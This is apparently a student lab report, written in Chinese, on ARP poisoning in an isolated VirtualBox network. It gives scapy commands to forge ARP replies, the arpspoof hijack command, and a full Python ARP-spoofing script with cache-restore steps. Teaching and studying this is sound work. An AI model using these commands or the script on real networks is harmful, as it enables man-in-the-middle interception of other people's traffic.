



## 实验四：网络监听

### 实验目的

- 了解ARP投毒的过程
- 熟悉scapy的使用

### 实验环境

- VirtualBox-6.1.26
- 攻击者主机（Attacker）：Kali-2021.2
- 受害者主机（Victim）：Kali-2021.2
- 网关（Gateway）：Debian10

### 实验要求

- 至少使用三台机器，连接在同一个内部网络中

  **网络拓扑**

  **节点信息**

  |    ID    | IP Address     | MAC Address       |
  | :------: | -------------- | ----------------- |
  | Gateway  | 172.16.111.1   | 08:00:27:2a:5d:5c |
  | Attacker | 172.16.111.111 | 08:00:27:0e:34:8d |
  |  Victim  | 172.16.111.137 | 08:00:27:9c:cc:5b |

### 实验过程

- 安装scapy

  在Attacker中安装scapy（kali自带，可以直接运行）

  

#### 实验一：检测局域网中的异常中断

- 在受害者主机上检查网卡的混杂模式是否启用

  `ip link show eth0`

  

- 在攻击者上打开scapy，输入以下命令

  `pkt = promiscping("172.16.111.137") `

  无法执行

  

  权限不足，`exit`退出scapy后，sudo重启并运行命令

  

- 回到受害者主机上开启网卡的混杂模式

  `sudo ip link set eth0 promisc on`

  再次检查混杂模式

  `ip link show eth0`

  

  输出结果多了`PROMISC`选项，即开启了混杂模式

- 在攻击者scapy继续执行命令，并观察两次输出的差异

  

  发现在受害者开启混杂模式后，攻击者检测到了受害者混杂模式的开启

- 在受害者主机上手动关闭混杂模式

  `sudo ip link set eth0 promisc off`

#### 实验二：手工单步“毒化”目标主机的ARP缓存

- 在攻击者上用scapy完成“毒化”过程

  - 获取当前局域网的网关MAC地址；构造一个ARP请求

    `arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")`

    查看构造好的ARP请求报文详情

    `arpbroadcast.show()`

  - 发送这个ARP广播请求

    `recved = srp(arpbroadcast, timeout=2)`

  - 网关MAC地址如下

    `gw_mac = recved[0][0][1].hwsrc`

  - 伪造网关的ARP响应包，准备发送给受害者主机（`172.16.111.137`）；ARP的源IP修改为网关的IP地址；ARP响应的目的MAC地址设置为攻击者的MAC地址

    `arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.137", hwdst="08:00:27:0e:34:8d")`

  - 发送上述伪造的ARP响应数据包到受害者主机

    `sendp(arpspoofed)`

  

- 查看受害者的ARP缓存

  

  发现网关的MAC地址已经被替换为攻击者的MAC地址，说明毒害受害者ARP缓存成功

- 恢复受害者主机的ARP缓存记录

  - 伪装网关给受害者发送ARP响应

    `restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:2a:5d:5c", pdst="172.16.111.137", hwdst="08:00:27:9c:cc:5b")`

    `sendp(restorepkt1, count=100, inter=0.2)`

  - 伪装受害者给网关发送ARP响应

    `restorepkt2 = Ether()/ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:2a:5d:5c", psrc="172.16.111.137", hwsrc="08:00:27:9c:cc:5b")`

    `sendp(restorepkt2, count=100, inter=0.2)`

- 查看受害者的ARP缓存，已经成功恢复

  

#### 实验三：使用自动化工具完成ARP投毒劫持实验

- 使用kali中的arpspoof工具完成ARP投毒劫持

  - 安装arpspoof

    

  - 劫持命令：

    `sudo arpspoof -i eth0 -t 172.16.111.137<想要劫持的目标主机> 172.16.111.1<想要伪装成的主机ip>`

    

    可见完成了ARP投毒劫持；Ctrl+C终止劫持，有自动恢复目标主机ARP缓存的过程


#### 实验四：基于scapy编写ARP投毒劫持工具

- python代码：

  ```python
  #!/usr/bin/python3
  # -*- coding: utf-8 -*-
  from scapy.all import ARP, Ether, get_if_hwaddr, sendp,srp
  from scapy.layers.l2 import getmacbyip
  
  def get_mac(target_ip):
  	'''
  	use getmacbyip function to get target Ip's MAC address
  	'''
  	target_mac = getmacbyip(target_ip)
  	if target_mac is not None:
  		return target_mac
  	else:
  		print("无法获取IP为：%s 主机的MAC地址，请检查目标IP是否存活"%target_ip)
  		
  def create_arp_target(src_ip,src_mac,target_ip,target_mac):
  	'''
      生成ARP数据包，伪造网关欺骗目标计算机
      src_mac:本机的MAC地址，充当中间人
      target_mac:目标计算机的MAC
      src_ip:要伪装的IP，将发往网关的数据指向本机（中间人），形成ARP攻击
      target_ip:目标计算机的IP
      op=is-at,表示ARP响应
  	'''
  	pkt = Ether()/ARP(op=2,psrc=src_ip,hwsrc=src_mac,pdst=target_ip,hwdst=target_mac)
  	return pkt
  	
  def create_arp_gateway(gateway_ip):
  
  	pkt = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst=gateway_ip)
  	return pkt
  	
  def main():
  	src_ip = "172.16.111.111" #Attacker
  	interface="eth0"
  	src_mac = get_if_hwaddr(interface)
  	print('本机IP地址是：', src_ip)
  	print('本机MAC地址是:',src_mac)
  	target_ip="172.16.111.137" #Victim
  	target_mac=get_mac(target_ip)
  	print("目标计算机IP地址是：", target_ip)
  	print("目标计算机MAC地址是：", target_mac)
  	gateway_ip = "172.16.111.1" #Gateway
  	arpbroadcast = create_arp_gateway(gateway_ip)
  	# 发送这个 ARP 广播请求
  	recved = srp(arpbroadcast, timeout=2)
  	# 网关 MAC 地址如下
  	gateway_mac = recved[0][0][1].hwsrc
  	print("网关MAC地址是：", gateway_mac)
  	arpspoofed = create_arp_target(gateway_ip,src_mac,target_ip,src_mac)
  	sendp(arpspoofed)
  	choice = input("是否恢复受害者主机ARP缓存(y/n):")
  	if choice == 'y':
  		restorepkt1=create_arp_target(gateway_ip,gateway_mac,target_ip,target_mac)
  		sendp(restorepkt1,count=10,inter=0.1)
  		restorepkt2=create_arp_target(target_ip,target_mac,gateway_ip,gateway_mac)
  		sendp(restorepkt2,count=10,inter=0.1)
  		
  	
  if __name__=='__main__':
  	main()
  
  ```

- 在攻击者主机运行该python程序：

  

### 参考资料

- [课本](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [ARP欺骗工具arpspoof的用法](https://blog.werner.wiki/usage-of-arpspoof/)
- [Python scapy实现一个简易arp攻击脚本](https://www.jianshu.com/p/df5918069612)
- [2020-ns-public-LyuLumos/blob/ch0x04](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)